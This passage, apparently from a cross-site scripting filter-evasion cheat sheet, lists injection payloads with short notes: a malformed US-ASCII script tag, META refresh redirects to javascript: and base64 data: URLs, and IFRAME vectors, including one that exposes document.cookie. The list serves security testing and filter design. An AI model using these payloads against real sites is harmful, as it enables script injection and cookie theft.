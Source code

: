 ## US-ASCII encoding

US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII
encoding with 7 bits instead of 8. This XSS may bypass many content
filters but only works if the host transmits in US-ASCII encoding, or if
you set the encoding yourself. This is more useful against web
application firewall cross site scripting evasion than it is server side
filter evasion. Apache Tomcat is the only known server that transmits in
US-ASCII encoding.

`¼script¾alert(¢XSS¢)¼/script¾`

## META

The odd thing about meta refresh is that it doesn't send a referrer in
the header - so it can be used for certain types of attacks where you
need to get rid of referring URLs:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">`

### META using data

Directive URL scheme. This is nice because it also doesn't have anything
visibly that has the word SCRIPT or the JavaScript directive in it,
because it utilizes base64 encoding. Please see RFC 2397 for more
details or go here or here to encode your own. You can also use the XSS
[calculator](http://ha.ckers.org/xsscalc.html) below if you just want to
encode raw HTML or JavaScript as it has a Base64 encoding method:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">`

### META with additional URL parameter

If the target website attempts to see if the URL contains "<http://>;"
at the beginning you can evade it with the following technique
(Submitted by Moritz Naumann):

`<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">`

## IFRAME

If iframes are allowed there are a lot of other XSS problems as well:

`<IFRAME SRC="javascript:alert('XSS');"></IFRAME>`

## IFRAME Event based

IFrames and most other elements can use event based mayhem like the
following... (Submitted by: David Cross)

`<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>`
